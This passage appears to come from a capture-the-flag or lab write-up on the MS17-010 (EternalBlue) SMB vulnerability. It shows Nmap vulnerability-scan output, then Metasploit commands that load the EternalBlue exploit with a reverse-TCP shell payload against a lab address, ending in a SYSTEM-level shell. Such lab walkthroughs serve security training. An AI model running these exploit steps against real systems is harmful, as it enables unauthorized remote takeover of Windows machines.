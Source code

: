   ```bash
  |     References:
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

  TRACEROUTE
  HOP RTT     ADDRESS
  1   0.47 ms ip-10-10-150-203.eu-west-1.compute.internal (10.10.150.203)

  Read data files from: /usr/bin/../share/nmap
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Wed May 12 18:40:42 2021 -- 1 IP address (1 host up) scanned in 99.28 seconds
  ```

### Vuln Nmap Findings

- **smb-vuln-ms17-010**:
  | VULNERABLE:
  | Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  | State: VULNERABLE
  | IDs: CVE:CVE-2017-0143
  | Risk factor: HIGH
  | A critical remote code execution vulnerability exists in Microsoft SMBv1
  | servers (ms17-010).

# Exploitation

## Metasploit

- Now that we know there is a vulnerable version of an SMB server running, we can search for the CVE within Metasploit.

1. Below we first search for that cve, use the exploit that works best for us, set the RHOST to our target machine and then execute the exploit.

   ```bash
   $ msfconsole

   msf5> search ms17-010
   msf5> use exploit/windows/smb/ms17_010_eternalblue
   msf5> exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
   msf5> set RHOST 10.10.x.x
   msf5> run
   .
   .
   .
   C:\Windows\system32> whoami
   nt authority/system

   ```
